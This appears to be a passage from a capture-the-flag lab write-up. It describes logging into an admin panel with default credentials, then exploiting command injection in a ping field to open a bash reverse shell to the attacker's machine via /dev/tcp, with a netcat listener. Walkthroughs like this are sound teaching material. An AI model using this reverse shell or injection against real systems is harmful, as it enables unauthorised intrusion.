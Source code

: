 
3. **Admin Panel Access:**
The user attempted to log in to the `/admin` panel and successfully gained access using default credentials: `admin:admin`.

<img width="1039" height="418" alt="image" src="https://github.com/user-attachments/assets/d867ba10-75b5-4eb9-975a-8817fcb3b91d" />


The `/console` page was noted to require a PIN sent to the server's console, which is not accessible to an attacker.




### Gaining Initial Foothold

The "System Maintenance Panel" on `/admin` provided a command execution vulnerability.

1. **Command Injection via Ping Functionality:**
The admin panel had an "Enter IP address" field and an "Execute Ping" button. This is a classic indicator of a command injection vulnerability.

<img width="1039" height="418" alt="image" src="https://github.com/user-attachments/assets/baba82d8-d69c-4e58-903d-d55aeb2c3dd4" />


The user attempted to inject a reverse shell command: `/bin/bash -c "bash -i >& /dev/tcp/192.168.1.5/4444 0>&1"`. The command result showed a timeout, but this confirmed that commands could be executed.

<img width="1039" height="418" alt="image" src="https://github.com/user-attachments/assets/c38940fc-8dac-4b71-b66f-dbe15c9e17d5" />


To verify command execution, `tcpdump` was used to monitor ICMP traffic. Pinging the attacker's machine from the target confirmed the vulnerability.

```shellscript
sudo tcpdump icmp
```

```plaintext
15:22:04.267802 IP 192.168.1.30 > kali: ICMP echo request, id 63053, seq 1, length 64
15:22:04.267872 IP kali > 192.168.1.30: ICMP echo reply, id 63053, seq 1, length 64
```


2. **Reverse Shell:**
A Netcat listener was set up on the attacker's machine (Kali) on port 4444.

```shellscript
nc -lvnp 4444
```

Executing the reverse shell command in the admin panel successfully established a connection, granting a shell as the `welcome` user.

```plaintext
Connection received on 192.168.1.30 39244
bash: cannot set terminal process group (441): Inappropriate ioctl for device
bash: no job control in this shell
welcome@Umz:/root$
```
